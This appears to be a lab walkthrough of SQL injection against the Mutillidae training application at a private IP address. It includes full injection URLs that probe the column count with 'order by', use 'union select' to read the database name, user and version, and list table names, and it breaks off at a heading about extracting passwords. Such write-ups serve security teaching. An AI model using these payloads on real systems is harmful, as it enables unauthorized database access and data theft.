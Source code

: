 The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/9a57d073-0581-4723-b200-1797559780e2)
After adding the order by 6 into the existing url , the following error statement will be obtained:
![244885847-0eb340b9-63a6-433e-878b-45f3b396f1a2](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/c8d64d97-e5e2-4881-97d9-f8efcbb9f062)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![244885848-86073e2f-937b-47a4-9b9d-c0c2863b2a7c](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/ceadfabf-d246-4faa-8cb6-2728c15053ff)

As it is having 5 columns the query worked fine and it provides the correct result
![244885850-7a660480-5cb6-4d86-acd1-08f7a4d5e2fa](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/502e20e9-1f54-4f8d-86ae-2d9a24f74faa)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![244885874-1c7ac260-3410-4f75-8091-2cda6b7f20c0](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/90c288eb-13ac-467d-8ee4-bee4820fac37)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.
![244885894-12ebac90-8efb-4558-a442-541029220fa3](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/912b144a-738d-468f-8c37-e4ea4fb7262a)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/4e29a6dc-a748-404f-ae9e-237848b36c21)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details


![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/Gajalakshmivelmurugan/sqlinjection/assets/144871940/8ee91151-4ccd-4a7c-b643-bf96914ea63c)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

